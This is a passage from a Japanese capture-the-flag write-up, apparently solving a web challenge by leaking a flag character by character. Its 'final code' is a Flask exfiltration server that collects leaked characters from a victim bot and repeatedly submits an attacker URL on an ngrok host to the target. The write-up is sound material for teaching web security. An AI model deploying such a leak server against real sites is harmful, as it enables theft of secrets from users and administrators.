 フラグの`{}`の中身が数字から始まる場合はこの手法は使えないが、幸いにもそうではなかったため今回は大丈夫だった。

### 最終的なコード

ちゃんと最後まで計算するとかなり時間がかかるが、途中までの計算結果からフラグは類推可能である。

```python:server.py
import threading
import time
from flask import Flask, Response, jsonify, render_template, request
import requests

app = Flask(__name__)

URL = "http://localhost:3000/"
EVIL = "https://xxx.ngrok.app/"


known=None
used=""
@app.route("/")
def index():
    return render_template("index.html", **globals())

res = []
@app.route("/known")
def known_route():
    global known
    known.append(request.args.get('v'))
    print(known, flush=True)
    return Response("ok")

@app.route("/getknown")
def getknown():
    global known
    if known == None:
        known = list(used)
    return jsonify(known)

@app.route("/complete")
def complete():
    global known
    known = list(filter(lambda k: k != request.args.get('v'), known))
    return jsonify(known)

@app.route("/used")
def used_route():
    global used
    used += request.args.get('v')
    print(used)
    return Response("ok")

@app.route("/getused")
def getused():
    global used
    return Response(used)

def solve():
    while True:
        requests.post(URL, data={
            "content": EVIL
        })
        time.sleep(60)
    pass
```